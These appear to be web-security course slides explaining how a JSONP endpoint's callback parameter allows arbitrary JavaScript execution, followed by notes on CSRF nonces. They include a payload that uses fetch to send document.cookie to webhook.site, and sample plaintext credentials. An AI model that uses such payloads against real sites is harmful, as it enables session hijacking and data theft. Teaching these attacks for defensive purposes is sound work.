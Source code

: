 ```html
<script src="api.quoccabank.com/get_users/jsonp?callback=login"/>
login([
{username:"jesse",password:"epicgamer123"}
{username:"melon",password:"ismellreallybad"}
{username:"george",password:"thanksforwatching!"}
])
</script>
```

---

Now all we need to do is make sure we have some function defined on `login.quoccabank.com` 
called "login"

```javascript
function login(data) { // Data from the other website passed into function.
    if (data.username == "admin" and data. password == "admin") {
        document.cookie = "LOGGED_IN_OR_SOMETHING";
    }

}
```

---

Because the JSONP is just arbitrarily inserted into this javascript function.

It is just permanently vulnerable to anything... 

Just do 

`/jsonp?callback=fetch("https://webhook.site"%2Bdocument.cookie)\/\/`

Which then returns 

```javascript
fetch("https://webhook.site"%2Bdocument.cookie) \/\/([
{username:"jesse",password:"epicgamer123"}
{username:"melon",password:"ismellreallybad"}
{username:"george",password:"thanksforwatching!"}
])
```

We have arbitrary javascript execution.

---

### JSONP Demo

---

### CSRF Tokens

Supply a single-use 'nonce' value.

* When the page is loaded, generate the nonce
* When a request is made, it must include the nonce
* It'll be stored as a: cookie, header, `<input>`

---
